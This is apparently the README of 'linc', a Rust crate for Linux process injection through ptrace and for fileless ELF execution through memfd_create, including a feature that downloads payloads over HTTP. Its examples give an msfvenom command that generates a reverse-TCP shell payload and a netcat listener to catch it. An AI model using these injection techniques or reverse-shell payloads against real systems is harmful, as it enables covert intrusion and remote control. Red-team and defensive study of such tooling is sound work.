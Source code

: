 # LINC - Linux INjection Crate
`linc` is a Rust crate containing implementations for process injection and fileless ELF execution techniques on Linux.

## Functionality
The following techniques are currently implemented:
- Using [memfd_create(2)](https://man7.org/linux/man-pages/man2/memfd_create.2.html) to create an anonymous file in memory, write an ELF to it, and then execute.
- Using [ptrace(2)](https://man7.org/linux/man-pages/man2/ptrace.2.html) to stop a forked process, overwrite its RIP register with shellcode, and then resume it.

## Usage
Add `linc` as a dependency to your Rust project with default features enabled
```bash
cargo add --git https://github.com/dustyw0lf/linc.git
```

Add `linc` without default features
```bash
cargo add --git https://github.com/dustyw0lf/linc.git --no-default-features
```

## Features
`linc` has the following features, enabled by default:
- `http`: Adds functionality to download payloads over HTTP/S.

## Examples
>[!note]
>The examples can take binaries or shellcode from either URLs or filesystem paths.

Clone the repo
```bash
git clone https://github.com/dustyw0lf/linc.git
```

Change directory into `linc`
```bash
cd linc
```

### memfd
Run the memfd example with an ELF file
```bash
cargo run --example memfd_executable
```

Run the memfd example with the provided shellcode or use your own:
```bash
msfvenom --payload 'linux/x64/shell_reverse_tcp' LHOST=127.0.0.1 LPORT=1234 --format 'raw' --platform 'linux' --arch 'x64' --out shellcode.bin
```

Start a listener
```bash
nc -lvnp 1234
```

Run the example
```bash
cargo run --example memfd_shellcode
```

### hollow
Run the hollow example with shellcode
```bash
cargo run --example hollow_shellcode
```

## Acknowledgments
The code that turns shellcode into an ELF file was taken from the [minimal-elf](https://github.com/tchajed/minimal-elf) repository by [Tej Chajed](https://www.chajed.io).